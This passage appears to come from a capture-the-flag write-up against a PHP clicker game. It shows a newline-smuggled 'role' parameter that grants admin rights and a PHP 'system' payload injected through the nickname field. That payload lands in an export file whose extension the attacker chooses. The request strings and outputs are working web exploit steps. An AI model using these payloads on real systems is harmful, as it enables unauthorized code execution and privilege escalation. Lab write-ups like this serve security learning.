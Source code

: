 ```php
  foreach ($data as $player) {
    $s .= '  <tr>';
    $s .= '    <th scope="row">' . $player["nickname"] . '</th>';
    $s .= '    <td>' . $player["clicks"] . '</td>';
    $s .= '    <td>' . $player["level"] . '</td>';
    $s .= '  </tr>';
  }
  $s .= '</tbody>';
  $s .= '</table>';
}

$filename = "exports/top_players_" . random_string(8) . "." . $_POST["extension"];
```

The export is created over a POST request with the parameters `threshold` and `extension`. So if we manipulate the extension to `.php` we could create a PHP file and access it.

Now we just have to inject a PHP command. But since the scoreboard lists all users and their scores, we can maybe create a user with an arbitrary name. For example `<?php exec("id"); ?>`. But this brings an error because of a restriction:
```php
if (! ctype_alnum($_POST["username"])) {
        header('Location: /register.php?err=Special characters are not allowed');
}
```

We have to try another way. I noticed that besides the `username` key exists also a `nickname` key which is also shown in the export:
```php
if ($_POST["extension"] == "txt") {
    $s .= "Nickname: ". $currentplayer["nickname"] . " Clicks: " . $currentplayer["clicks"] . " Level: " . $currentplayer["level"] . "\n";
    foreach ($data as $player) {
    $s .= "Nickname: ". $player["nickname"] . " Clicks: " . $player["clicks"] . " Level: " . $player["level"] . "\n";
  }
```

Since there is no normal way to set the nickname, we can set it also over the `save_game.php`. The file don't check for the keys itself except the `role`. So we can inject another key: `/save_game.php?clicks=5000&level=5&role%0a=Admin&nickname=mycoolnickname`

If we then create the export we find ourselves under the new nickname:
```
Nickname: mycoolnickname Clicks: 5000 Level: 5
Nickname: admin Clicks: 999999999999999999 Level: 999999999
Nickname: ButtonLover99 Clicks: 10000000 Level: 100
Nickname: Paol Clicks: 2776354 Level: 75
Nickname: Th3Br0 Clicks: 87947322 Level: 1
```

To inject a command over this key we can use this payload: `/save_game.php?clicks=5000&level=5&role%0a=Admin&nickname=<%3fphp+system("id")%3b+%3f>`

And get the PHP command in the export:
```
Nickname: <?php system("id"); ?> Clicks: 5000 Level: 5
Nickname: admin Clicks: 999999999999999999 Level: 999999999
Nickname: ButtonLover99 Clicks: 10000000 Level: 100
Nickname: Paol Clicks: 2776354 Level: 75
Nickname: Th3Br0 Clicks: 87947322 Level: 1
```
